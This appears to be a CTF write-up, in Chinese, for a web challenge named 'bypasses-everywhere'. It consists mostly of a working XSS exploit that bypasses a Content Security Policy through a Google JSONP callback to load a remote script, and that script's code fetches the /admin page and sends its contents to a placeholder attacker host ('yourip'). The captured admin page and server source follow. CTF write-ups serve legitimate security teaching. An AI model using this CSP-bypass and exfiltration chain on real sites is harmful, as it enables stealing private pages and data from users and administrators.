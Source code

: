 step1.html
```
<body>
<script>
window.location =
    'http://127.0.0.1:8080/article?name=Phone&img=&time=<script/src&unit==%22//www%2Egoogle%2Ecom%2Fcomplete%2Fsearch%3Fclient%3Dchrome%26q%3Da=document.createElement(%27script%27);a.src=%27//yourip/post.js%27;document.body.appendChild(a);//%26callback%3Dwindow%2Eopener%2esetTimeout%22>';
</script>
</body>
```

post.js
```
document.write('<img src="//yourip/4000.jpg">');

fetch('/admin').then(res => res.text()).then(text => (new Image).src=('http://yourip/?'+encodeURIComponent(text)));
```

成功收到 `/admin` 的 document 內容:

```
<!DOCTYPE html>
<html>
<head>
	<title>Welcome!</title>
</head>
<body>

	

<h1>Send me a gift</h1>
<p>
	I'm currently looking to sell more costly stuff. If you want to help me, please send me a link to the article you want to give me (for free!) and I'll check it out.
</p>
<form action="/url" method="post">
	<label>Url</label>
	<input type="text" name="url" placeholder="https://bypasses-everywhere.ctf.insecurity-insa.fr/article?name=Plane">
	<input type="submit" value="Submit">
</form>
<br>

<img style='max-width: 50vh' src="None">

from flask import request, render_template
from flask_csp.csp import csp_header
import requests
import re

with open("flag.txt") as f:
    FLAG = f.read()

def _local_access() -> bool:
    if request.referrer is not None and not re.match(r"^http://127\.0\.0\.1(:\d+)?/", request.referrer):
        return False
    return request.remote_addr == "127.0.0.1"

def routes(app, csp):
    @csp_header(csp)
    @app.route("/admin")
    def adm():
        url = request.args.get("picture")
```